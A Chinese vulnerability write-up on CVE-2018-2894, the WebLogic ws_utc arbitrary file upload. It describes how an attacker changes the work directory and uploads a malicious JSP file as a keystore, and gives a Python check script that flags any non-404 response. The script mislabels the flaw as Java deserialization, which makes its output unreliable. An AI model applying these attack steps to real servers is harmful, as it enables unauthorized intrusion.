 # CVE-2018-2894 Weblogic任意文件上传漏洞 #
## 受影响版本 ##
Weblogic10.3.6.0 , Weblogic12.1.3.0 , Weblogic12.2.1.2 , Weblogic12.2.1.3。
## 平台 ##
windows 、linux等多平台
## 测试系统 ##
Ubuntu
## 类型 ##
远程
## 描述 ##
ws_utc为WebLogic Web 服务测试客户端，其配置页面存在未授权访问的问题，路径为 /ws_utc/config.do

攻击者通过访问此配置页面，先更改工作目录，用有效的 WebLogic Web 路径替换存储 JKS Keystores 的文件目录，然后在上传 JKS Keystores 时上传恶意的 JSP 脚本文件

## POC ##
<pre class="prettyprit lang-javascript">
import logging
import sys
import requests

logging.basicConfig(filename=&#x27;Weblogic.log&#x27;,
                    format=&#x27;%(asctime)s %(message)s&#x27;,
                    filemode=&quot;w&quot;, level=logging.INFO)

VUL=[&#x27;CVE-2018-2894&#x27;]
headers = {&#x27;user-agent&#x27;: &#x27;ceshi/0.0.1&#x27;}

def islive(ur,port):
    url=&#x27;http://&#x27; + str(ur)+&#x27;:&#x27;+str(port)+&#x27;/ws_utc/resources/setting/options/general&#x27;
    r = requests.get(url, headers=headers)
    return r.status_code

def run(url,port,index):
    if islive(url,port)!=404:
        logging.info(&#x27;[+]The target weblogic has a JAVA deserialization vulnerability:{}&#x27;.format(VUL[index]))
        print(&#x27;[+]The target weblogic has a JAVA deserialization vulnerability:{}&#x27;.format(VUL[index]))
    else:
        logging.info(&#x27;[-]Target weblogic not detected {}&#x27;.format(VUL[index]))
        print(&#x27;[-]Target weblogic not detected {}&#x27;.format(VUL[index]))

if __name__==&quot;__main__&quot;:
    url = sys.argv[1]
    port = int(sys.argv[2])
    run(url,port,0)
</pre>